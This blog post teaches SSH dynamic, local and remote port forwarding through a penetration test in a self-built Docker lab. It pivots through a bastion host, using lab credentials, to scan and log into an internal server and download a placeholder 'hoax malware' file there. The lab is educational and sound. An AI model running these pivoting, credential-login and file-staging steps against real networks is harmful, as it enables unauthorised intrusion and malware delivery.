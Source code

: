 ```yaml
---
layout: post
title:  "Gain access to an internal machine using Port forwarding - Penetration Testing"
date:   2020-08-10 00:00:00 -0400
tags: intermediate application cybersecurity networking featured
excerpt: Set up a penetration testing environment using docker containers in docker networks to learn various types of port forwarding techniques
---
```


Port forwarding is a technique in which a port in one machine is tunneled to a port in another machine. In simple words, a request made to a port `P1` of a machine `M1` is "forwarded" as a request to port `P2` of a machine `M2`.

In the [previous blog](/2020/08/09/gain-access-to-an-internal-machine-using-port-forwarding-setup-experiment-environment.html), we set up the experiment environment which emulated the setup as shown in the following diagram. In this blog, we shall perform the penetration test as we go along learning **port forwarding**.

![Scenario Visual](/assets/img/pivoting/scene.png)
<br/><small style="color: gray">Scenario Visualization</small><br/>

## Recap

You, a penetration tester, have the following information:

* The data center is in `172.17.0.0/16` subnet and the enterprise is in `10.10.10.0/24` subnet.
* The IP address of your machine is `172.17.0.1`.
* The IP address of the network interface of the bastion server facing the data center network is `172.17.0.2`, while the network interface that is facing the enterprise network is `10.10.10.2`.
* The IP address of the internal server is `10.10.10.3`.
* The internal server doesn't have access to the internet. (Somehow)
* The SSH login credentials to the bastion server is `bastion:fortwall` and that of the internal server is `admin:homeportal`.

Your intention is to **place a hoax malware** in the internal server.

_I suggest the readers comprehend the port forwarding terminologies with respect to the machine at the readers' end._

## Recon bastion server

You begin by scanning for open ports in the bastion server, to find out which port serves the SSH service.

![Recon bastion](/assets/img/pivoting/recon.png)

The SSH server is running at **port 2222** of the bastion server and the credentials that you obtained by social engineering works!

## Recon internal server - Dynamic port forwarding

It is time to pivot at the bastion server to recon the internal network (`10.10.10.0/24`). How do you perform reconnaissance on the internal server whose IP address is `10.10.10.3`? You could install nmap and other tools in the bastion server, but that doesn't seem to be stealthy!

You plan to allocate a port in your localhost that tunnels traffic to the bastion server, and the bastion server makes requests on your behalf. This method is known as **Dynamic Port Forwarding**.

```
[localhost]-9050 <-> 2222-[bastion]-bport_any <-> iport_any-[internal_server]
-------> request
<------- response
```

SSH client provides a powerful set of options to execute port forwarding. To execute dynamic port forwarding to communicate with the internal network, run the following command.

```bash
ssh -D 9050 -p2222 -Nf bastion@172.17.0.2
```

`-D` option is used to open a port for dynamic port forwarding. The above command opens port 9050 in localhost and any request to it is forwarded to the bastion which dynamically opens a port for communication.

#### Other options

* `-p`: to specify the port to which SSH request is to be made.
* `-N`: Do not execute any command. (I don't need a shell)
* `-f`: Run SSH in the background.

Further, you configure the proxychains to run nmap through. Open the file `/etc/proxychains.conf` and add the following record (tab-separated) under the `[ProxyList]` section:

```
socks5    127.0.0.1    9050  
```

Now, you perform port scanning on the internal server at `10.10.10.3` through the bastion server at `172.17.0.2`, to find the port that services SSH requests. To do so, you run the following command:

```bash
proxychains nmap -e docker0 -Pn -sT 10.10.10.3
```

`-e` option forces nmap to use a particular interface (`172.17.0.1` in our case)

![Recon through bastion using proxychains](/assets/img/pivoting/recon-bastion.png)

## Log in to internal server - Local port forwarding

Now that you learned that the internal server serves SSH service at port 2222, you decide to log in to the server with the credentials that you have. Since the internal server is in another private network, you plan to port forward the requests made to one of the ports of the network interface reachable to you, to port 2222 of the internal server through the bastion server.

When you want to expose a service in a server to a port of an interface reachable to you, use **Local port Forwarding**.

```
[localhost]-2323 <-> 2222-[bastion]-bport <-> 2222-[internal_server]
-------> request
<------- response
```

To expose SSH service of the internal server on your local machine, run the following command.

```bash
ssh -L 2323:10.10.10.3:2222 -p2222 -Nf bastion@172.17.0.2
```

`-L` option is used to local port forward a request to a remote server. In this case, the request to port 2323 of your machine reaches the internal server at port 2222 through the session with the bastion server. The IP address (i.e. `10.10.10.3`) provided as the value for this option should be reachable by the bastion server.

Thus, by running the following command using the socially engineered credentials, you should be able to login to the internal server.

```bash
ssh -p2323 admin@localhost
```

![Login to internal server by local port forwarding](/assets/img/pivoting/login-internal.png)

## Install the hoax malware - Remote port forwarding

The final step is to install the hoax malware into the internal server. You plan to host an HTTP file server at your end and wget the hoax malware at the internal server. Remember, the internal server has no access to the internet. But, it is able to access all nodes in the enterprise subnet. Hence, you need to expose the HTTP file service running at port 8080 at your end through the bastion server to the internal server at port 8000.

When you want to expose a service running in your machine to a port of an interface reachable to a remote server, use **Remote port Forwarding**.

```
[localhost]-8080 <-> 2222-[bastion]-8000 <-x-> iport-[internal_server]
<------- request
-------> response
```

To expose the HTTP service of your local machine to the internal server through the bastion server, run the following command.

```bash
ssh -R 8000:127.0.0.1:8080 -p2222 -Nf bastion@172.17.0.2
```

`-R` option is used to remote port forward a response to a remote server. In this case, the request to port 8000 of the bastion server reaches your computer at port 8080. The IP address provided as the value for this option should be "assignable" by your computer. (You could also use `localhost` instead of the IP address of your computer. Localhost = localhost for your computer)

In another terminal, you create an empty hoax malware file by the name `hoax_malware` by running `touch hoax_malware` and start the HTTP file server using the following command.

```bash
python3 -m http.server 8080
```

But wait! You realize that remote port forwarding can only go up to the localhost network interface of the bastion server.

![Remote port forwarding to bastion server](/assets/img/pivoting/remote-port-forward.png)

## Remote port forwarding through a port that is forwarded locally

This is not a type of port forwarding, but an attempt to show the power of compounding multiple types of port forwarding techniques. You want to somehow install the hoax malware into the internal server. Your thoughts are going wild and creativity is at its peak. You think "_What if I could remote forward it to the internal server itself? I anyways have SSH access to the internal server through port 2323 of my machine_". Your fingers quickly fidget the following command on your penetration testing machine and you restart the HTTP file server.

```bash
ssh -R 8000:127.0.0.1:8080 -p2323 -Nf admin@localhost
python3 -m http.server 8080
```

And, then switch to the internal server shell terminal and try to download the hoax malware again.

```bash
wget http://localhost:8000/hoax_malware
```

![Compound port forwarding to achieve the desired requirement](/assets/img/pivoting/compound-pf.png)

**Bingo! MISSION ACCOMPLISHED!**

NOTE: There are multiple ways to gain access to the internal server. The intention of this specific series of steps is to learn port forwarding.

## More Port forwarding examples in real life

**Docker**, the well-known containerization platform extensively uses local port forwarding. The `--publish` or `-p` option enables it. The port specified prefixing the colon `:` is the port on the host which is tunneled to the port of the docker container corresponding to the service it is running.

**Ngrok**, a network utility, lets one open one or more ports to the world! Yes, I mean it, the world! I believe it is using remote port forward technique, which exposes the service running at a port in the local machine to the world through the ngrok service's `hostname:port` that pops up on the screen when one runs the ngrok utility.

**Burpsuite**, a web application penetration testing tool uses dynamic port forwarding. Here, the proxy server is the localhost itself. The proxy server typically runs at port 8080. Burpsuite processes and/or stores the request and forwards it to the server the browser is trying to reach. The response, however, comes back to Burpsuite, which forwards it to the browser and eventually gets rendered on the screen.
